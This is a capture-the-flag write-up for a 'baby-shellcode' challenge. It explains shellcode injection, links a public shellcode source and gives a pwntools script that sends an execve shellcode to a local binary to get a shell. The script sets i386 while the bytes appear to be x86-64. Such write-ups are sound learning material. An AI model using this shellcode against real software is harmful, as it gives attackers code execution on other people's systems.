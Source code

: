 <figure><img src="../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

### Exploit

I did some research  by searching varies write up, basic shellcode, and payload that will work with the challenge and I did found something useful with this source:

[https://shell-storm.org/shellcode/files/shellcode-806.html](https://shell-storm.org/shellcode/files/shellcode-806.html)



basically, with shell code we created a code that machine can understand (ASM) and run the code on the chall program. Instead of run into next instruction as it intended, the program will escape from it and run our code that we created before.&#x20;

{% hint style="info" %}
I think it is essential to learn a bit for ASM language to understand things work, so we can also create our shellcode if none of things working
{% endhint %}



#### code

```python
from pwn import *

context(arch='i386', os='linux')

binary_path = './baby-shellcode'
io = process(binary_path)

shcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

payload = shcode

io.sendline(payload)

io.interactive()

```
